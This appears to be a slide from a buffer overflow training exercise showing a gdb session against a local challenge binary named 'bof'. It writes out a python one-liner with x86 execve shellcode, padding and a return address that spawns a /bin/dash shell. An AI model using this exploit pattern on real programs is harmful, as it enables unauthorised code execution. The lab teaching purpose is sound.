

# Get shell in gdb
user@ubuntu:~/Challenges/bof$ gdb -q --args ./bof $(python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80" + "A" * (140 - 24)+ "\xb0\xd4\xff\xff"')
Reading symbols from ./bof...(no debugging symbols found)...done.
(gdb) r
Starting program: /home/user/Challenges/bof/bof 1�Ph//shh/bin�S�ᙰ
                                                                 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA��
argv[1]: 1�Ph//shh/bin�S�ᙰ
                          ̀AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA��
process 54169 is executing new program: /bin/dash
$ id
uid=1000(user) gid=1000(user) groups=1000(user),27(sudo)
$